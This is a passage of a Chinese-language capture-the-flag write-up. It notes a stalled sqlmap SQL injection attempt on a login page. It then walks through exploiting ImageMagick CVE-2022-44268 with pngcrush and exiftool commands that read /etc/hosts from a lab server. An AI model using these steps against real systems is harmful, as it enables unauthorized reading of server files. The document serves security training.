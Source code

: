 [提示二]
找到登入介面/tournament/login

[提示三]
發現有開啟mysql服務，透過sql injection密碼是不是可以繞過

[提示四]
原始碼裡有特定Url，搭配Cookie的token key解開API

[提示五]
打開API後需要用什麼Decode

#### Exploit
1. 通靈登入介面
2. sqlmap直接打，有打出time based的部分，就卡住了
3. 另外一組的jin也是卡在這邊

### Q7

#### 題目敘述
>透過情報收集，發現此網頁有上傳檔案服務的一個頁面，是一個免費的開源跨平台軟件套件，發現此版本可能有漏洞可利用。
此測試機存在一個上傳圖片的服務，且它存在著某個漏洞，讓你有機會可以進行攻擊，拿到內部存在的資料
>
>[連線IP/連結資訊]
>192.168.100.83
>
>[備註]
>答題系統Flag輸入格式：CSC{FLAG_最多長度25可包含數字、英文大小寫、特殊字元及底線}

#### Hint
[提示一]
網頁服務使用了什麼圖片編輯工具?檢視原始碼有重要訊息!

[提示二]
網頁弱點為ImageMagick 任意文件讀取

[提示三]
請上傳圖片得到必要訊息

[提示四]
下載上傳後的圖片分析內容

#### Exploit
1. 先掃port: nmap->8080
2. 確認目前的開源工具為ImageMagick
3. 搜尋一下ImageMagick的Vulnerability->CVE-2022-44268
4. 用[現成工具](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC)
```bash
$ sudo apt-get install pngcrush exiftool exiv2 -y
$ pngcrush -text a "profile" "/etc/hosts" abc.png
$ exiv2 -pS pngout.png
```
上傳到系統，如果該檔案存在就會回傳一張圖片到前端供我們下載，之後就可以用exiftool分析
```bash
$ exiftool return.png
...
Raw Profile Type                : ..      13.6539323739343234366663300a.
...
$ python -c "print(bytes.fromhex('6539323739343234366663300a').decode('utf-8'))"
e92794246fc0
```
目前不知道具體flag的位置和檔案名稱
